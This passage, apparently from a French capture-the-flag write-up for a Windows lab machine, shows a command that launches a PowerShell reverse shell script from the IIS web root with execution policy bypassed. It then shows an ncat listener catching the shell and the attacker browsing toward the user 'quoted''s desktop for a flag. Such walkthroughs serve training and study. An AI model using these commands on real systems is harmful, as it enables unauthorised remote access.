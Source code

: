 Pour l'exécuter c'est l'appel classique :

```bash
powershell -nop -exec bypass c:\inetpub\wwwroot\rev.ps1
```

Avec cet accès je trouve le premier flag sur le bureau de l'utilisateur `Quoted`.

```console
$ sudo ncat -l -p 80 -v
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.56.111:49162.
SHELL> cd c:/
SHELL> dir

    Directory: C:\

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        05.10.2024     13:23            dotNet Update                     
d----        05.10.2024     00:30            inetpub                           
d----        14.07.2009     06:20            PerfLogs                          
d-r--        05.10.2024     00:12            Program Files                     
d-r--        05.10.2024     00:21            Program Files (x86)               
d-r--        05.10.2024     12:16            Users                             
d----        05.10.2024     00:27            Windows                           

SHELL> cd Users
SHELL> dir

    Directory: C:\Users

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d----        05.10.2024     00:09            Administrator                     
d----        05.10.2024     12:16            Classic .NET AppPool              
d----        05.10.2024     00:28            DefaultAppPool                    
d-r--        12.04.2011     18:08            Public                            
d----        05.10.2024     00:07            quoted                            

SHELL> cd quoted
SHELL> dir

    Directory: C:\Users\quoted

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
d-r--        05.10.2024     00:07            Contacts                          
d-r--        06.10.2024     17:25            Desktop                           
d-r--        05.10.2024     00:07            Documents                         
d-r--        05.10.2024     00:07            Downloads                         
d-r--        05.10.2024     00:07            Favorites                         
d-r--        05.10.2024     00:07            Links                             
d-r--        05.10.2024     00:07            Music                             
d-r--        05.10.2024     00:07            Pictures                          
d-r--        05.10.2024     00:07            Saved Games                       
d-r--        05.10.2024     00:07            Searches                          
d-r--        05.10.2024     00:07            Videos                            

SHELL> cd Desktop
SHELL> dir

    Directory: C:\Users\quoted\Desktop
```